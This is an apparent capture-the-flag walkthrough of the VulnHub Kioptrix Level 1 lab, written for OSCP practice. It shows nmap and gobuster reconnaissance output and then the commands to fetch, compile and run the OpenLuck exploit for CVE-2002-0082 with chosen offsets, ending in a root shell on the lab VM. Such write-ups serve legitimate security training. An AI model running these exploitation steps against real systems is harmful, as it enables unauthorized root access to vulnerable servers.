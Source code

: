 # Kioptrix Level 1



This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

[Download Link](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

![Info](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/1.png)
![Description](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/2.png)

## Initial Recon
### Nmap Scan
Finding the ip address of machine
```
nmap -sn 192.168.29.1/24
```
![IP image](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/3.png)

After knowing the ip address let's run a full port scan to see which ports are open.

```
# nmap -v -p- 192.168.29.17 -oN nmap_initial_scan.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 16:48 EDT
Initiating ARP Ping Scan at 16:48
Scanning 192.168.29.17 [1 port]
Completed ARP Ping Scan at 16:48, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:48
Completed Parallel DNS resolution of 1 host. at 16:48, 0.00s elapsed
Initiating SYN Stealth Scan at 16:48
Scanning 192.168.29.17 [65535 ports]
Discovered open port 443/tcp on 192.168.29.17
Discovered open port 139/tcp on 192.168.29.17
Discovered open port 80/tcp on 192.168.29.17
Discovered open port 22/tcp on 192.168.29.17
Discovered open port 111/tcp on 192.168.29.17
Discovered open port 32768/tcp on 192.168.29.17
Completed SYN Stealth Scan at 16:48, 13.15s elapsed (65535 total ports)
Nmap scan report for 192.168.29.17
Host is up (0.00027s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
443/tcp   open  https
32768/tcp open  filenet-tms
MAC Address: 08:00:27:7B:60:42 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.30 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

-v = verbose mode
-p- = all port scan 
-oN = output

We have  22,80,111,139,443,32768 ports open on this machine. Now we will go for the version detection of services running.

# nmap -v -p 22,80,111,139,443,32768 -sC -sV -A 192.168.29.17 -oN nmap_services_scan.txt

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: 5MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce:5293:4723:e7fe:c28d:74ab:42d7:02f1
|_SHA-1: 9c42:91c3:bed2:a95b:983d:10ac:f766:ecb9:8766:1d33
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2024-09-04T00:52:05+00:00; +3h59m59s from scanner time.
| http-methods: 
|_  Supported Methods: GET HEAD POST
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
32768/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:7B:60:42 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Uptime guess: 0.018 days (since Tue Sep  3 16:26:01 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=194 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>
|_clock-skew: 3h59m58s
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE
HOP RTT     ADDRESS
1   0.47 ms 192.168.29.17

-sC = script scan
-sV = open ports service/version information
-A = enable os detection

We have 
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: 5MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```
## Enumeration
Let's start the enumeration from port no 80 which is running apache httpd 1.3.20

```
@ 80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
```

On hitting ip address on browser we have a test page  of apache on this

![Loading Page](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/4.png)

Running gobuster to check if there is any directory or file that can reveal some information to proceed further.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.29.17 -t 50 -b 503,404
```

![Gobuster image](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/5.png)

Nothing interesting is found in gobuster scan.
On searching web I found that the apache and mod_ssl version are vulnerable to [CVE-2002-0082](https://nvd.nist.gov/vuln/detail/CVE-2002-0082).

![exploit image](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/6.png)

## Exploiting

Download the exploit from [here](https://github.com/heltonWernik/OpenLuck?tab=readme-ov-file) and run.

![github page image](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/7.png)

```
git clone https://github.com/heltonWernik/OpenLuck.git
```

![kali  term1](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/8.png)

Install the requirements mentioned. 

```
apt-get install libssl-dev
```

![kali term2](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/9.png)

Compile the file using 
```
gcc -o OpenFuck OpenFuck.c -lcrypto
Ignore the errors
```

Give permissions.
```
chmod +x OpenFuck
```

Run the exploit
```
./OpenFuck
It gives us the list of some offsets with the name of os and apache version.
```

![kali term3](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/10.png)

Check the os details and apache version in the list and use that offset.
OS = Redhat 
Apache Version = 1.3.20

Use grep command to filter the output and see what we need.

![kali term4](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/11.png)

We can try offset 0x6a and 0x6b which matches our versions and os.
```
./OpenFuck 0x6a 192.168.29.17 443 -c 40
```

![kali term5](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/12.png)

This spawned the shell but didn't last long and exited.
```
./OpenFuck 0x6b 192.168.29.17 443 -c 40
```

![kali term6](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/13.png)

This gave us the shell.

![kali term7](https://github.com/satharv/Oscp_Prep/blob/main/Writeups/vulnhub/Kioptrix_level_1/images/14.png)

We directly got the root shell.










